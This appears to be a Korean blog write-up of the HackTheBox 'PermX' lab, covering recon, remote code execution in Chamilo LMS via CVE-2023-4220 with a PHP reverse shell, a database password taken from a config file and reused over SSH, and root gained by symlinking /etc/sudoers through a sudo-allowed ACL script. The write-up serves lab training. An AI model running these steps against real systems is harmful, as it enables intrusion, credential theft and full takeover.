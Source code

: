```yaml
---
title: "PermX  HTB 가치 분석 및 사용법"
description: ""
coverImage: "/assets/img/2024-07-09-PermXHTB_0.png"
date: 2024-07-09 22:54
ogImage:
  url: /assets/img/2024-07-09-PermXHTB_0.png
tag: Tech
originalTitle: "PermX — HTB"
link: "https://medium.com/@kript0r3x/permx-htb-84871140b508"
isUpdated: true
---
```


<img src="/assets/img/2024-07-09-PermXHTB_0.png" />

리눅스 머신이고, nmap 스캔을 시작하면 두 개의 열린 포트가 나타납니다.

```js
$ nmap -A -sV -sC 10.129.84.129 -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80번 포트에서 실행되는 웹 서버가 http://permx.htb를 가리킵니다. vhosts에 추가하고 해당 URL로 이동하면 정적 웹 사이트가 표시됩니다. 흥미로운 내용은 없습니다.

<div class="content-ad"></div>

그럼, ffuf를 사용하여 하위 도메인 열거를 수행하면 lms.permx.htb 하위 도메인을 확인할 수 있습니다.

```js
└─$ ffuf -w /opt/useful/Discovery/Web-Content/big.txt:FUZZ -u http://permx.htb:80 -H "Host: FUZZ.permx.htb" -fw 18

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb:80
 :: Wordlist         : FUZZ: /opt/useful/Discovery/Web-Content/big.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1389ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 72ms]
:: Progress: [20476/20476] :: Job [1/1] :: 604 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

그 후 vhosts에 추가하고 웹 사이트를 방문하면 Chamilo 웹 애플리케이션의 로그인 페이지가 표시됩니다.

<img src="/assets/img/2024-07-09-PermXHTB_1.png" />

<div class="content-ad"></div>

채밀로 애플리케이션의 최근 취약점을 찾던 중, 아래 GitHub을 발견했어요. 거기에는 인증되지 않은 역방향 코드 실행을 얻기 위한 POC가 나와 있어요.

위 PHP 역술을 사용하면, 위 POC로 역방향 쉘을 획득할 수 있어요. (공격 호스트의 IP 주소로 IP 주소를 수정해주세요)

[https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```js
─$ ./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 1234
-e
curl: (6) Could not resolve host: lms.permx.htb

# 아래 명령어를 사용하여 TTY를 상호작용하는 데에 사용할 수 있어요;)
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
# CTRL + Z
# stty raw -echo; fg

# 포트 1234에서 역술을 시작했어요. . . . . . .
```

<div class="content-ad"></div>

www-data 사용자로 쉘에 접속했습니다. linpeas를 실행하여 로컬호스트에서 chamilo 사용자의 데이터베이스 자격 증명을 찾았습니다. 홈 디렉토리를 살펴보니 mtz라는 사용자가 있었습니다. 찾은 비밀번호를 사용하여 mtz 사용자로 호스트에 SSH로 접속했습니다.

```js
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

```js
cat /var/www/chamilo/app/config/configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```

mtz 사용자로 호스트에 로그인한 후, 사용자 플래그를 찾았습니다. 또한, 이 사용자가 root로서 '/opt/acl.sh'와 같은 사용자 지정 스크립트를 실행할 수 있다는 것을 알게 되었습니다.

<div class="content-ad"></div>

```js
사용자 mtz가 permx에서 다음 명령을 실행할 수 있습니다:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

이 스크립트는 모든 사용자에 대해 파일의 권한을 변경할 수 있지만 /home/mtz 디렉토리의 파일 권한만 변경할 수 있습니다.

```js
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

이 스크립트를 사용하여 sudoers 파일의 권한을 변경하고 mtz 사용자에게 호스트에서 sudo 권한을 부여했습니다. 이를 위해 /home/mtz 디렉토리에 /etc/sudoers 파일에 대한 심볼릭 링크를 만들고 사용자에게 읽기/쓰기 권한을 부여하기 위해 스크립트를 사용했습니다.

<div class="content-ad"></div>

```js
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

다음과 같이 sudoers 파일을 수정했습니다.

```js
<SNIP>

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```

다시 로그인하고 'sudo su'를 입력하면 루트 셸을 얻을 수 있습니다.

<div class="content-ad"></div>

```js
mtz@permx:~$ sudo su
root@permx:/home/mtz# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
```
